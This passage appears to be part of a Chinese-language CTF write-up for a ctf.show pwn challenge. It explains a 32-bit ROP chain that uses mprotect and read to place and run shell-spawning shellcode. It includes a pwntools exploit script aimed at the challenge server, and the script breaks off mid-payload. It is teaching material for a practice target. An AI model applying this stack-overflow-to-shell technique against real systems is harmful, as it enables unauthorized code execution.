 

![image-20241102110644417](../_media/image-20241102110644417.png)

```
0x0806BEE0
```

read同样也是需要传三个参数嘛

```
read(0, v1, 0x64);
```



思路是什么就是read->plt表开始地址（也就是shellcode地址）->参数1（0）->参数2（shellcode地址）->参数3（大小）



```python
read_addr = 0x0806BEE0
plt_start_adr = 0x080DA000
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')

payload += p32(read_addr)
payload += p32(plt_start_adr)
payload += p32(0x0) 
payload += p32(plt_start_adr)
payload += p32(len(shellcode))
```



最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port =  28252

r = remote(ip,port)
elf = ELF('./pwn')
offset = b'a' * (0x12 + 0x04)
read_addr = 0x0806BEE0
plt_start_adr = 0x080DA000
mportect_addr = 0x0806cdd0
pop3_ret1_adr = 0x08056194
plt_start_adr = 0x080DA000
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')

payload = offset
payload += p32(mportect_addr) 
payload += p32(pop3_ret1_adr) 
payload += p32(plt_start_adr) 
```